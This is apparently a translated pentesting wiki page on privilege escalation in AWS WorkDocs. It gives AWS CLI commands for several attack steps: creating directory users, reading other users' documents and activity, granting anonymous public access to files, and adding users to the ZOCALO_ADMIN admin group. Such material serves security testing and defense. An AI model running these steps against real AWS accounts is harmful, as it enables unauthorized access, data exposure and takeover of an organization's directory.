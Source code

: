 # AWS - WorkDocs Privesc

## WorkDocs

Za više informacija o WorkDocs-u pogledajte:

{% content-ref url="../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

Kreirajte korisnika unutar naznačenog direktorijuma, tada ćete imati pristup i WorkDocs-u i AD-u:
```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```
### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

Datoteke mogu sadržavati osetljive informacije, pročitajte ih:
```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```
### `workdocs:AddResourcePermissions`

Ako nemate pristup za čitanje nečega, jednostavno ga možete dodijeliti.
```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```
### `workdocs:AddUserToGroup`

Možete postaviti korisnika kao administratora tako što ćete ga dodati u grupu ZOCALO_ADMIN.\
Za to pratite uputstva sa [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)

Prijavite se sa tim korisnikom u Workdoc i pristupite administratorskom panelu na adresi `/workdocs/index.html#/admin`

Nisam pronašao način da ovo uradim putem CLI-a.
